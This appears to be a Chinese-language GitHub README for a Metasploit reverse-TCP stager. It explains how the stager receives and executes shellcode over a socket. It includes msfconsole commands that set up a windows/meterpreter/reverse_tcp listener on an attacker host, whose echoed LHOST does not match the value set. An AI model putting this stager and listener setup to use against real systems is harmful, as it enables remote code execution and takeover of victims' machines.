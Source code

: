 # msf_reverse_tcp_stager
反向tcp连接的stager的实现


![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819140259747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODc0OTMw,size_16,color_FFFFFF,t_70#pic_center)

# 编写原理

先接收4个字节的数据，这个数据为shellcode的总字节数。
分配内存，设置缓冲区到第一个数据为0xBF。
将socket连接到句柄传到缓冲区中。
然后接收剩余数据。
以缓冲区的基地址为起点开始执行shellcode。

[metasploit payload运行原理](https://www.cnblogs.com/Akkuman/p/12859091.html)


# 在msf上需要进行的操作参考


```
msf > use exploit/multi/handler 
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LPORT 4444
LPORT => 4444
msf  exploit(handler) > set LHOST 192.168.0.1
LHOST => 192.168.95.241
msf  exploit(handler) > run
```
